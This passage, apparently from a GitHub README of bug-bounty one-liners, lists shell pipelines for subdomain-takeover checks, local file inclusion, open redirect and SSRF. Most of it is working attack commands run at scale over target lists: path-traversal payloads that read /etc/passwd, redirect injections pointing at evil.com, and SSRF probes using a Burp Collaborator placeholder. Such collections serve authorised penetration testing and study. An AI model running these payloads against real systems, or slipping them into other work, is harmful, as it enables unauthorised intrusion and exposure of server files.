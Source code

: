 [](https://github.com/0xPugal/One-Liners#subdomain-takeover)

```
cat subs.txt | xargs -P 50 -I % bash -c "dig % | grep CNAME" | awk '{print $1}' | sed 's/\.$//g' | httpx -silent -status-code -cdn -csp-probe -tls-probe
```

---

## LFI:

[](https://github.com/0xPugal/One-Liners#lfi)

```
cat targets.txt | (gau || hakrawler || waybackurls || katana) |  gf lfi |  httpx -paths lfi_wordlist.txt -threads 100 -random-agent -x GET,POST  -tech-detect -status-code -follow-redirects -mc 200 -mr "root:[x*]:0:0:"
```

```
cat targets.txt | (gau || hakrawler || waybackurls || katana) | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```

```
cat targets.txt | while read host do ; do curl --silent --path-as-is --insecure "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd" | grep "root:*" && echo "$host \033[0;31mVulnerable\n";done
```

---

## Open Redirect:

[](https://github.com/0xPugal/One-Liners#open-redirect)

```
echo target.com | (gau || hakrawler || waybackurls || katana) | grep -a -i \=http | qsreplace 'http://evil.com' | while read host do;do curl -s -L $host -I| grep "http://evil.com" && echo -e "$host \033[0;31mVulnerable\n" ;done
```

```
cat subs.txt | (gau || hakrawler || waybackurls || katana) | gf redirect | qsreplace 'http://example.com' | httpx -fr -title -match-string 'Example Domain'
```

---

## SSRF:

[](https://github.com/0xPugal/One-Liners#ssrf)

```
cat urls.txt | gf ssrf | sort -u |anew | httpx | qsreplace 'burpcollaborator_link' | xargs -I % -P 25 sh -c 'curl -ks "%" 2>&1 | grep "compute.internal" && echo "SSRF VULN! %"'
```

```
cat urls.txt | grep "=" | qsreplace "burpcollaborator_link" >> ssrf.txt; ffuf -c -w ssrf.txt -u FUZZ
```

---